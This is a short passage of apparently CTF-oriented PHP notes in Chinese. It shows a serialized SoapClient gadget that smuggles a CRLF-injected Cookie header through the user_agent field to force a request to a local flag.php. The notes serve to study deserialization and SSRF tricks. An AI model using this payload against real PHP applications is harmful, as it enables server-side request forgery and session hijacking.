 - ## 内置类 SoapClient
- ```php
  <?php
  $a = new SoapClient(
    null,
    array(
        'uri'=>'bbb',
        'location'=>'http://127.0.0.1:81/flag.php',
        'user_agent'=>"test\r\nCookie: PHPSESSID=0mrbj32r0ptfcnf7l6kmmgh1c4"
    )
  );
  echo urlencode(serialize($a));
  # 利用: $a->notexist();
  ?>
  ```
- Error类:
	- ((62efc5c6-a0d5-4eab-906e-0db03366b1e9))
-
